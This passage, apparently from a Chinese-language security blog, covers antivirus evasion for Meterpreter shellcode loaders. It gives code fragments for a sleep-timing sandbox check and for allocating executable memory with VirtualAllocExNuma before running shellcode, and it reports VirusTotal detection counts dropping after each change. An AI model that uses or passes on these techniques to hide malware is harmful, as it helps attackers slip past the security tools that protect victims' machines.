 为了除去别的容易干扰的因素，我选择使用固定的一种编译器对shellcode进行编译。  

 
直接编译生成，virustotal的结果如下，`19/67`

![/styles/images/meterpreter/p8.png]({{ '/styles/images/meterpreter/p8.png' | prepend: site.baseurl }})

添加如下的代码之后再进行检测：   
```
time_begin = GetTickCount() ;
Sleep(5555);
time_end = GetTickCount();
DWORD time_cost = time_end - time_begin;

if((time_cost > time_sleep+5) || (time_cost < (time_sleep - 5)))
{return 0;}
runshellcode();
```
检测`16/66`  

![/styles/images/meterpreter/p9.png]({{ '/styles/images/meterpreter/p9.png' | prepend: site.baseurl }})  

虽然只减少了3个，不过也说明部分杀软还是吃这一套。   

### 2.NUMA       


NUMA代表Non Uniform Memory Access（非一致内存访问）。它是一个在多系统中配置内存管理的方法。它与定义在Kernel32.dll中所有一系列函数连接在一起。 

更多的信息可以参考官方文档：  
http://msdn.microsoft.com/en-us/library/windows/desktop/aa363804(v=vs.85).aspx  

代码如下：  

```
address = VirtualAllocExNuma(handle, NULL, sizeof(buf), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE,0);
if (address == NULL){return 0;}
runshellcode();

```
检测结果17/67，又少了两个。  

![/styles/images/meterpreter/p10.png]({{ '/styles/images/meterpreter/p10.png' | prepend: site.baseurl }})

### 3.总结      


这里截图的效果不好主要是因为`stagerd meterpreter`是没有什么行为的，主要是靠静态查杀，如果行为明显那么这些方法还是能起到不少的效果。  

还有很多其他的一些技巧，由于篇幅原因就不过多的介绍了。  
有兴趣可以参考[维基解密](https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdf)。  


0x04 结语  
------------------  
最近老有兄弟跟我交流免杀的事情，尤其是meterpreter的免杀方式，花了点时间研究并写下了这篇文章，希望各位读者能够有所收获。  

